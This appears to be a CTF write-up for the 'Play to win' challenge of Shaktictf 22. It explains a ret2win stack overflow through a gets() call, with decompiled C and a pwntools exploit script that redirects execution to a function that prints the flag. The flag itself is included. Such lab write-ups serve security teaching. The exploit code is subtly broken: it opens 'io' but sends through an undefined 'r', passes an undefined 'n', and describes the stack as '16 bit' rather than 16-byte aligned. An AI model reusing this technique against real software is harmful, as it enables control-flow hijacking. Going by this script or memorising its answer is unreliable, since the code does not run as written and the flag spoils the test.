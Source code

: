 # Shaktictf 22 writeups

## Play to win
DESCRIPTION:

I was playing a game of adding words with my friends, until I added one too long!

Note: The server is running on Ubuntu 20.04.

FLAG FORMAT: shakti{}
### Intended solution:
This is a basic ret2win challenge.

A binary file is given as an attachment, where the usual checks give:

![](https://i.imgur.com/NqZOOmp.png)

![](https://i.imgur.com/BVAl2Cl.png)

Running the file-

![](https://i.imgur.com/3gEnXL2.png)


Decompiling the game fuction in binary gives the following-
```
int game()
{
  int result; // eax
  int v1; // eax
  char v2[2]; // [rsp+8h] [rbp-18h] BYREF
  char s[10]; // [rsp+Ah] [rbp-16h] BYREF
  int v4; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+18h] [rbp-8h]
  int v6; // [rsp+1Ch] [rbp-4h]

  puts("You think you can do this?");
  result = puts("I don't think so.");
  v5 = 0;
  v4 = 0;
  while ( v5 != 1 )
  {
    printf("Add the word:");
    gets(s);        //gets function here!
    v1 = strlen(s);
    result = v1 + v4;
    v4 = result;
    if ( result == 10000 )
    {
      v5 = 1;
      v6 = 1;
      break;
    }
    puts("Do you want to continue?");
    printf("Yes or No [y/n]:");
    __isoc99_scanf("%s", v2);
    getchar();
    result = (unsigned __int8)v2[0];
    if ( v2[0] == 121 || (result = (unsigned __int8)v2[0], v2[0] == 89) )
    {
      v5 = 0;
    }
    else
    {
      result = (unsigned __int8)v2[0];
      if ( v2[0] == 110 || (result = (unsigned __int8)v2[0], v2[0] == 78) )
        v5 = 1;
      else
        result = puts("Wrong input.");
    }
  }
  if ( v6 == 1 )
  {
    winfunc();
    exit(0);
  }
  return result;
}
```
The basic objective of the game is to add words till the combined length of them all reaches 10000, upon which the game re-directs to a winfunc(), where it prints :
 ```
Ah well, you did win afterall.
I guess congratlations are in order.
```
 On opening the file in gdb and observing all the functions-

![](https://i.imgur.com/hBilDaC.png)

We see that there are two win fuctions here, winfunc and reallywin.And reallywin shows:
```
void __noreturn reallywin()
{
  puts("I may have underestimated you");
  puts("You win!");
  system("cat flag.txt");
  exit(0);
}
```
So basically you just have to redirect the control flow of the rip to reallywin. We have a gets fuction here, so we can overflow and overwrite rip.

Now as stack is 16 bit aligned, it took 30 bytes of data to overwrite the buffer and we have to use the ret gadget to return back to the stack and overwrite rip with address of `reallywin`


Exploit:

```python
from pwn import *
elf = ELF("game")
io=process(elf.path)
ret = 0x40101a # Used to align stack

win = elf.symbols['reallywin']

#Fill the Buffer with 30 A's --> overwrite return address with ret gadget to align the stack --> then address of the reallywin function
payload = b"A"*30 + p64(ret) + p64(win)
r.sendline(payload)
r.sendline(n) #to pass last check
r.interactive()
```
This gives the flag:
`shakti{G0od_joB_5olviNg_Thi5_1}`
